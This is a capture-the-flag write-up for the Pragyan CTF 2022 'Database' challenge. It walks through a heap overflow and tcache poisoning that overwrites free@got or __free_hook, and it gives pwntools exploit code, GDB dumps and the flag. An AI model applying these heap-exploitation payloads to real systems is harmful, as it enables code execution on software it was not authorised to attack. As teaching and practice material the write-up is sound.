



# Pragyan CTF 2022 - Database

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [database.zip](database.zip)

There will be 3 files in zip:
- database
- ld-2.27.so
- libc-2.27.so

Download and extract, then use `pwninit` to patch file. After done, we start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file database
database: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=ea160318b25c1dc13c8efa64734a4ee03f502630, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for all defences:

```
$ checksec database
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that just `RELRO` is off, so we can overwrite anything we want to any @got. Finally, let's use ghidra to decompile the file.

There are several file but we notice there is a function called `secret`. The `secret` function will give us flag when we execute it:



At first, I didn't check it deeper so I attacked unsorted bin and then abuse tcache link list to get the flag. You can read the exploit code [here](solve_1.py)

Back to main(), we can see that there are 4 functions called `print_items`, `insert_item`, `update_item` and `delete_item`. The first function `print_items` will check if the `len`, a global variable, is equal to 0 or not. If not, print out the number of bytes in that chunk with the size saved in `database` too.

The second function is `insert_item` which just simply take the length, then malloc with that length ask us to input data to chunk and save the size also the pointer to `database`.

The third function is `update_item` which will ask us to input new length for chunk without free the old chunk and malloc new chunk --> **Heap Overflow**

The last function is `delete_item` which will free() the chunk and remove the size also the pointer to chunk in `database` so we don't have use after free bug here.

That's all we can find. Let's move on the next part: Brainstorming!

# 2. Brainstorming

### Way 1

With the first solve, I first create a large chunk and free it, that chunk will go to unsorted bin and contain libc main arena address. I just use `show_items` and get that address, then calculate the libc base address. 

Then I create 2 small chunk and free all of them. I abused tcache link list by overwriting the forward pointer into `__free_hook` and then malloc again with the same size. With the second malloc, I write the address of system libc to `__free_hook` so when we free a chunk contain string `/bin/sh` will execute system("/bin/sh")

### Way 2

With this way, I was making writeup while thinking about the exploitation. We will first create 2 small chunk and free them, then abuse tcache link list by overwriting forward pointer with some free@got.

Next, we malloc 2 chunk with the same size and with the second malloc, we now control that free@got. Just simply write the address of secret() function to the free@got and we will get flag when we run free() again.

- Summary:
  1. Attack tcache

# 3. Exploit

Before we start, I wrote these functions for convinient exploit:

<details>
<summary>Code snippet</summary>
<p>

```
def insert(length, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'length of string => ', '{}'.format(length).encode())
    p.sendafter(b'string you want to save => ', data)

def update(index, length, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'index of element => ', '{}'.format(index).encode())
    p.sendlineafter(b'length of string => ', '{}'.format(length).encode())
    p.sendafter(b'string => ', data)

def remove(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', '{}'.format(index).encode())

def show():
    p.sendlineafter(b'choice => ', b'1')
```

</p>
</details>

And now, let's start!

### Attack tcache

First, we will malloc 4 small chunk:

```
insert(0x10, b'0'*0x10)    # Control the chunk below
insert(0x10, b'1'*0x10)    # Remove second
insert(0x10, b'2'*0x10)    # Remove first
insert(0x10, b'3'*0x10)    # Avoid heap consolidation
```

Then just simply free chunk index 2 and 1:

```
remove(2)
remove(1)
```

Check in GDB and we can see that 2 chunk goes into tcache:



Let's look how these 2 chunks look like:

```
gef➤  x/20xg 0x000055dc28dcf250
0x55dc28dcf250:    0x0000000000000000    0x0000000000000021    <-- Chunk index 0
0x55dc28dcf260:    0x3030303030303030    0x3030303030303030
0x55dc28dcf270:    0x0000000000000000    0x0000000000000021    <-- Chunk index 1
0x55dc28dcf280:    0x000055dc28dcf2a0    0x000055dc28dcf010
0x55dc28dcf290:    0x0000000000000000    0x0000000000000021    <-- Chunk index 2
0x55dc28dcf2a0:    0x0000000000000000    0x000055dc28dcf010
0x55dc28dcf2b0:    0x0000000000000000    0x0000000000000021    <-- Chunk index 3
0x55dc28dcf2c0:    0x3333333333333333    0x3333333333333333
0x55dc28dcf2d0:    0x0000000000000000    0x0000000000020d31
0x55dc28dcf2e0:    0x0000000000000000    0x0000000000000000
```

We can see the forward pointer in the chunk index 1. Now just `update_item` for chunk index 0 to a bigger size to change that forward pointer into address of free@got:

```
payload = b'0'*0x10
payload += p64(0)
payload += p64(0x21)
payload += p64(exe.got['free'])
update(0, 0x50, payload)
```

And then we just malloc 2 chunk with the same size 0x10:

```
insert(0x10, b'1'*0x10)
insert(0x10, b'2'*0x10)
```

Running script and we check the `database` to get the new chunk address (Address changed):

```
gef➤  x/10xg &data_base
0x56132f201d80 <data_base>:       0x0000000000000050    0x00005613303dd260
0x56132f201d90 <data_base+16>:    0x0000000000000010    0x00005613303dd280
0x56132f201da0 <data_base+32>:    0x0000000000000010    0x000056132f201cc8
0x56132f201db0 <data_base+48>:    0x0000000000000010    0x00005613303dd2c0
0x56132f201dc0 <data_base+64>:    0x0000000000000000    0x0000000000000000

gef➤  x/xg 0x000056132f201cc8
0x56132f201cc8 <free@got.plt>:	0x3232323232323232
```

So the new chunk address is still remain as the previous one except the chunk index 2 `0x000056132f201cc8`, it's the address of free@got. So for the second insert() of the code above, we will change data to the address of secret(). The code above change as follows:

```
insert(0x10, b'1'*0x10)
insert(0x10, p64(exe.sym['secret']))
```

After we successfully change free@got, just simply run free() and we will get the flag:

```
remove(0)
```

Full code 1: [solve_1.py](solve_1.py)
Full code 2: [solve_2.py](solve_2.py)

# 4. Get flag



Flag is `p_ctf{Ch4Ng3_1T_t0_M4x1Mum}`